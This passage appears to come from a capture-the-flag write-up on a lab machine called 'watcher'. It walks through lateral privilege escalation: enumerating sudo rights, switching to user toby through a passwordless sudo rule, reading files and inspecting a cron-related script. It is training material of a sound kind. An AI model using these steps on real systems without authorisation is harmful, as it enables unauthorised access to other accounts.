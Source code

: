 ez

## 3. Priv Esc
### 3.1. Lateral PrivEsc: Toby
Time to start getting to root.
```
www-data@watcher:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

And that was pretty basic ...

```
www-data@watcher:/$ sudo -u toby bash
sudo -u toby bash
whoami
toby
```

Great. How about now looking at what toby got for us.

```
toby@watcher:~$ ls
ls
flag_4.txt
jobs
note.txt
```

```
toby@watcher:~$ cat note.txt
cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

Exploring, we find the following. What a script. wow.

```
toby@watcher:~/jobs$ cat cow.sh
cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

The note mentions something to do with cron job. Let's check `crontab`.
